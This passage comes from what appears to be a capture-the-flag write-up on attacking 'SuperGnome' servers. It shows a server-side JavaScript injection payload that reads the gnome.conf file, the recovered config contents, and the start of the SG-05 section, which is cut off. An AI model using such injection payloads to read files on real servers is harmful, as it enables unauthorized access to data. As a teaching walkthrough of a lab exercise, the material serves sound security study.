 <img class="alignnone wp-image-463" src="/images/2016/01/sg46.png" alt="sg46" width="285" height="143" srcset="/images/2016/01/sg46.png 533w, /images/2016/01/sg46-300x150.png 300w" sizes="(max-width: 285px) 100vw, 285px" />

Finally, in order to exploit this vulnerability to recover the gnome.conf file, we simply insert some more useful JS payload that will read the contents of gnome.conf into the “result” variable:

```
fs.readFileSync('/gnome/www/files/gnome.conf', "utf8")
```

<img class="alignnone wp-image-464" src="/images/2016/01/sg47.png" alt="sg47" width="405" height="100" srcset="/images/2016/01/sg47.png 526w, /images/2016/01/sg47-300x74.png 300w" sizes="(max-width: 405px) 100vw, 405px" />

With which we receive the flag:

```
Gnome Serial Number: BU22_1729_2716057 
Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg 
Allow new subordinates?: YES 
Camera monitoring?: YES 
Audio monitoring?: YES 
Camera update rate: 60min 
Gnome mode: SuperGnome 
Gnome name: SG-04 
Allow file uploads?: YES 
Allowed file formats: .png 
Allowed file size: 512kb 
Files directory: /gnome/www/files/
```

**SG-05 Exploitation**
  
_Status: Successful_

This system in Brazil is running the sgnet software, specifically sgstatd on port 4242/tcp. When we connect to this port on this system we receive the following menu:
